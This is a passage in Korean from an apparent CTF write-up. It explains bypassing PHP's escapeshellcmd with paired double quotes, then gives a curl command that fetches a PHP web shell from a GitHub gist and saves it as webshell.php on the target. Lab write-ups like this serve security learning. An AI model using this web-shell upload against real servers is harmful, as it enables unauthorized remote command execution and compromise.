 <br>

이제 test.php에서는 실행 결과 값이 reuslttt에 저장되기 때문에 실행되도 보이지가 않는다. 따라서 웹쉘을 따로 업로드해야 하는데 escapeshellcmd 함수에서는 " 더블 쿼터 문자가 쌍으로 되어있을 땐 이를 필터링하지 않으므로 curl -o 옵션을 사용해서 webshell.php 라는 파일로 업로드할 수 있다.

```bash
curl "https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php" -o webshell.php
```

![image-20250518153930241](/images/2025-05-17-Swithing-command/image-20250518153930241.png)

![image-20250518153607935](/images/2025-05-17-Swithing-command/image-20250518153607935.png)
